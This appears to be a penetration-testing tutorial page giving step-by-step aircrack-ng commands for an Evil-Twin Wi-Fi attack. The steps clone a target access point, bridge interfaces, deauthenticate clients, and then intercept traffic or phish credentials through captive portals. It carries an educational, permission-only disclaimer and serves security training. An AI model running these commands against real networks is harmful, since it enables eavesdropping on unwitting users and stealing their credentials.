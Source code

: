 # Evil-Twin Attack



{% hint style="danger" %}
This is for educational purposes and only to be performed on networks you have permission to do so.
{% endhint %}

Basic info on Wireless can be found [here](../../../general/networking/wireless/).\
\
This will be a walkthrough on  performing an Evil-Twin wireless attack using [Aircrack-ng](../../../general/tools/wireless/aircrack-ng.md).

An evil twin is a fake wireless access point(AP) that looks like a real one. The concept is to set up a malicious wireless network with the same SSID name as the target.

This will require having a WiFi Adapter that supports monitor mode, also known as packet injection.

I myself have and recommend these adapters:

* [Alfa AWUS036ACM](https://www.amazon.com/Alfa-AWUS036ACM-Long-Range-Dual-Band-Wireless/dp/B073X6RL9D) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACHM](https://www.amazon.com/gp/product/B08SJBV1N3/ref=ox\_sc\_act\_title\_1?smid=A20G3A026MV70R\&psc=1) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACH](https://www.amazon.com/dp/B08SJC78FH?ref\_=cm\_sw\_r\_cp\_ud\_dp\_PSZZG6J9X0XH40GXB685) <-- Capable of 2.4GHz and 5GHz (This more than likely \*will\* require driver installation)
* [Panda Wireless PAU09 N600](https://www.amazon.com/Panda-Wireless-PAU09-Adapter-Antennas/dp/B01LY35HGO) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036NEH](https://www.amazon.com/AWUS036NEH-Range-WIRELESS-802-11b-USBAdapter/dp/B0035OCVO6)
* [Alfa AWUS036NH](https://www.amazon.com/Alfa-AWUS036NH-802-11g-Wireless-Long-Range/dp/B003YIFHJY)
* [Panda Wireless PAU05](https://www.amazon.com/Panda-300Mbps-Wireless-USB-Adapter/dp/B00EQT0YK2)
* [TP-Link TL-WN722N](https://www.amazon.com/TP-Link-TL-WN722N-Wireless-network-Adapter/dp/B002SZEOLG)
* [Ralink USB WiFi RT5370](https://www.amazon.com/Ralink-RT5370-Raspberry-Adapter-Function/dp/B019XUDHFC)

You can also use a device such as [WiFi Pineapple](https://shop.hak5.org/products/wifi-pineapple).

## Setup

First we need to find the interface of our WiFi, using `iwconfig`. Mine is "wlan1" in this instance.

After we find that, we put it into monitor mode:

```
sudo airmon-ng start wlan1
```

<figure><img src="../../../.gitbook/assets/image (459).png" alt=""><figcaption></figcaption></figure>

Notice it says "`monitor mode vif enables for [phy1]wlan1 on [phy1]wlan1mon`" - The interface is now wlan1mon instead of wlan1.

Now we find our target using `airodump`.

```
sudo airodump-ng wlan1mon
```

Mine will be "Pixel7" in this instance.

<figure><img src="../../../.gitbook/assets/image (460).png" alt=""><figcaption></figcaption></figure>

## Creating the Evil-Twin

Now that we have our target, we can setup the Evil-Twin AP with `airbase`.

```
sudo airbase-ng -a (BSSID) --essid (essid) -c (channel#) (interface)
```

<figure><img src="../../../.gitbook/assets/image (461).png" alt=""><figcaption></figcaption></figure>

### Bridge Setup

We will need to bridge adapters for this next step so if it's not already installed, install bridge-utils:

```
sudo apt install -y bridge-utils
```

We will also need to provide internet access to the Evil Twin to keep devices connected. Give it any name you want, I chose "evil".

```
brctl addbr evil
```

Notice when we created the Evil-Twin AP it created a tap interface of `at0`, we will need to bridge the created interfaces.

```
sudo brctl addif evil at0
```

Enable listening on interface `at0` and enable both `evil` and `at0` interfaces

```
sudo ifconfig at0 0.0.0.0 up
sudo ifconfig evil up
```

### Deauthentication

Our goal now is get clients to connect to our AP instead, so we need to deauth them from one they are connected to:

```
sudo aireplay-ng -0 10 -a (bssid) wlan1m0n
```

OR if we want to deauth a specific client:

```
sudo aireplay-ng -0 10 -a (bssid) -c (Client MAC Address) wlan1m0n
```

<figure><img src="../../../.gitbook/assets/image (462).png" alt=""><figcaption></figcaption></figure>

Once a client connects, we will see the message "Client X associated (unencrypted) to ESSID (Chosen ESSID)"&#x20;

<figure><img src="../../../.gitbook/assets/image (463).png" alt=""><figcaption></figcaption></figure>

### Post connection

Once they are connected, or even before, we can start intercepting traffic with whatever tools we want, like [Wireshark](../../../general/networking/wireshark.md), [tshark](https://www.wireshark.org/docs/man-pages/tshark.html), [tcpdump](https://www.tcpdump.org/), etc.

We can also target WiFi with security and setup [Captive Portals](https://en.wikipedia.org/wiki/Captive\_portal) that will require them to enter credentials for their home WiFi or a website like Google which is then given to us.
